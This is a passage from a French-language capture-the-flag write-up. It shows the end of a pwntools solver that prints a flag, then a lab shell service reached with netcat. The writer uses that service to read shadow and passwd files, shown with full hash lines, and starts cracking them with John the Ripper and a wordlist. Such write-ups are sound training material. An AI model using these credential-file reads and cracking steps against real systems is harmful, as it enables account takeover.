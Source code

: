 ```python
    pwn.log.success('FLAG = HSR{' + hashlib.md5(result.encode()).hexdigest() + '}')
    clean()


if __name__ == '__main__':
    main()
```

On obtient: `HSR{0870c7a157d6bb8bd0989db4df1cc58f}`

<br>
<hr>
<br>

# [Misc] Oneliner

## Consignes

```bash
nc 10.22.6.101 15001
```

## Exploration

Les commandes envoyés via ce flux retourne le résultat d'une commande shell:

```bash
$ nc 10.22.6.101 15001
Send me something.
whoami
noob
```

En explorant les dossiers du `$HOME` on tombe sur un fichier `shadow` contenant les données suivantes:
```
root:$6$Fmbc/WIUv1/wz9HO$zFGPCl6WmPHwwm7h.DEWjI/Ie2iXSYCir6zyiQIraNDv9SHyls8s8aCVQCq2WPY1EvC/BHwS7FtKOaFR6dS.v.:19054:0:99999:7:::
noob:$6$9YJYhryw4tLAllN3$TrPoPr3MVd9Bj3Ft0Y3wbpCHBqGeZmZF5AYeJS2Mv9vanPHl7lOLNIgR3c4IdQkgxnaGs6NLhT894nWOpU/bU/:19054:0:99999:7:::
```

On extrait également le fichier `/etc/passwd`:
```
root:x:0:0:root:/root:/bin/bash
noob:x:1000:1000::/home/noob:/bin/bash
```

On essaye de casser les hashs avec une wordlist:
```bash
$ unshadow /tmp/passwd /tmp/shadow > /tmp/hashes
$ john /tmp/hashes --wordlist=$HOME/Downloads/rockyou.txt 
Loaded 2 password hashes with 2 different salts (crypt, generic crypt(3) [?/64])
Remaining 1 password hash
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

```
